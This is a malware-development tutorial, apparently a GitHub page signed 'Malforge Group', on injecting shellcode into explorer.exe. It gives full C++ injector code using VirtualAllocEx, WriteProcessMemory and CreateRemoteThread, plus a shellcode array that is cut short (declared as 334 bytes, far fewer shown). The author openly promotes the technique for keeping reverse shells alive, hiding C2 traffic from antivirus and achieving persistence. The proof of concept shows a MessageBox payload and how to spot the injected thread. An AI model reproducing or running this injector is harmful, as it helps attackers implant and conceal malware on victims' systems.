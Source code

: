# Process Code Injection

## Introduction

Welcome to this article. Today, I will demonstrate how to inject a process into another running process on the same machine. For this example, we will inject into the `explorer.exe` process. I hope you find this tutorial informative.

### Why Use Process Code Injection?

- **Extended Lifespan of Payloads:** When using a basic reverse shell, the connection only stays alive while the original executable is running. If the user closes the program, the shell dies. However, by injecting your reverse shell into a legitimate process like explorer.exe, the payload keeps running—even after the original executable is closed—since the injected code now lives inside a different, trusted process.

- **Blending with Legitimate Activity:** If your malware connects directly to a C2 server, it’s easy for antivirus software to flag it as suspicious—especially if the connection comes from an unknown or unsigned executable. Process injection allows you to move your operations into a trusted process like chrome.exe or any web browser, making your network traffic appear more legitimate and harder to detect.

- **Achieving Persistence:** You can enhance persistence by injecting your code into multiple remote processes. Even if one process is terminated, your malicious payload can continue to operate from other injected processes, increasing the resilience of your malware.


![image](https://github.com/user-attachments/assets/4b1f3922-efcc-407c-9f7d-65bbff258601)

## Code :

Today’s focus is on a basic injection technique—more advanced and complex methods will be covered in future content.

```C++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
};
unsigned int payload_len = 334;

int FindPID(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}


int main(void) {
    
 int pid = 0;
    HANDLE hProc = NULL;

 pid = FindPID("explorer.exe");

 if (pid) {
  printf("Explorer.exe PID = %d\n", pid);

  // try to open target process
  hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
      PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
      FALSE, (DWORD) pid);

  if (hProc != NULL) {
   Inject(hProc, payload, payload_len);
   CloseHandle(hProc);
  }
 }
 return 0;
}
```

The code consists of three primary functions, each with a specific role:

- **FindPID:** This function basically receives the name of one process, and return the PID (Process ID) from this process, to do this use `CreateToolhelp32Snapshot` to see all the current processes, and with `Process32First` and `Process32Next`, captures the PID from the previous and next processes executed in victim machine.

- **Inject:** This function inject your shellcode to one process, to do this is very simple uses 3 other functions :
  1. `VirtualAllocEx`, here is creating little memory space in remote process to after inject code.
  2. `WriteProcessMemory` with this it’s moving the malicious shellcode to provious memory space created with `VirtualAllocEx`.
  3. The last one is `CreateRemoteThread` this is to execute the memory location with your malicious code inside.

- **Main:** This function basically are executing the last 2, and controlling errors from other 2 functions.


## POC : 

Now let's execute the code : 

![image](https://github.com/user-attachments/assets/ed01f018-bf77-4c57-82e2-787de92ba1a8)

The popped screen **RTO: MalDev** displays my shellcode, and it’s working well. However, it only functions if `explorer.exe` is open; otherwise, it doesn’t work. Now, it's time to check if the shellcode has truly been injected into the `explorer.exe` process.

To verify this, I use the Process Hacker. You can download it from the following link :

> Download - Process Hacker\
Process Hacker, A free, powerful, multi-purpose tool that helps you monitor system resources, debug software and detect. [here](https://systeminformer.sourceforge.io/downloads)

Let’s go to **explorer** threads.

![image](https://github.com/user-attachments/assets/f6d1a4f3-e444-4a83-a8b5-7ad4c3d0b37c)

Both processes have a PID of 756. Now, go to the Threads section where you should see your malicious thread. To identify it, right-click on `explorer.exe` → select Threads, and then search for `ntdll.dll!RtlUserThreadStart`.

`UserThreatStart` is the key string you need to look for in order to identify your malicious thread.

![image](https://github.com/user-attachments/assets/b8fc0b05-667f-49bd-a9aa-d1dc8b822965)

![image](https://github.com/user-attachments/assets/c78538c9-19da-47a4-8e65-d413de62e4c6)

In the malicious thread stack, you should see MessageBox, which corresponds to a Windows MessageBox. This is what it looks like:

![image](https://github.com/user-attachments/assets/3b319658-a949-4f90-b27d-cbbacbd5c987)


## Conclusions

This article has covered one of the simplest forms of code injection into a remote process. While this technique serves as a foundation, more advanced methods will be explored in future content.

Thanks for reading! ;)

**-Malforge Group.**

